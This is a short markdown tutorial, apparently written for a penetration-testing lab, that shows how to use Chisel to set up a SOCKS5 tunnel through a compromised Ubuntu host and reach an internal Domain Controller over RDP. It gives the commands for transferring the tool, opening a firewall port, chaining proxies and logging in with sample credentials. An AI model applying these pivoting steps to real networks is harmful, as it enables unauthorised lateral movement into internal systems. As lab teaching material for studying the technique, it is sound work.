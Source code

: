 ## What is Chisel?

**Chisel** is a fast TCP/UDP tunneling tool built in **Go**, using:

- HTTP for transport
- SSH for encryption
- SOCKS5 support for tunneling via proxychains

It helps **pivot** through a compromised host to reach internal services (like RDP or SMB).

## Step-by-Step: Chisel Forward SOCKS5 Tunnel

### 🧪 Scenario

- Internal server (e.g. Domain Controller): `172.16.5.19`
- Pivot (compromised) host: Ubuntu server at `10.129.202.64`
- Attacker host: your machine
  
## 1️⃣ Get Chisel on Your Attack Box
```bash
git clone https://github.com/jpillora/chisel.git
cd chisel
go build   # Requires Go installed
```
Or download a precompiled version from GitHub Releases.

## 2️⃣ Transfer Chisel to the Pivot Host
```bash
scp chisel ubuntu@10.129.202.64:~/

# unzip
tar -xf all_files.zip
```

## 3️⃣ Run Chisel Server on Pivot Host

```bash
./chisel server -v -p 1234 --socks5

# if you got error run this
netsh advfirewall firewall add rule name="Chisel1234" dir=in action=allow protocol=TCP localport=1234

```

✅ This makes the pivot host listen on port `1234` and expose a **SOCKS5 proxy** to the internal network.

## 4️⃣ Connect Chisel Client from Attacker
```bash
./chisel client -v 10.129.202.64:1234 socks
```
✅ This creates a SOCKS5 proxy on your machine at `127.0.0.1:1080`.

## 5️⃣ Configure Proxychains
Edit `/etc/proxychains.conf`:

```bash
[ProxyList]
socks5 127.0.0.1 1080
```

## 6️⃣ Use RDP to Access the Internal Host
```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
✅ You are now accessing the Domain Controller through the pivot using Chisel.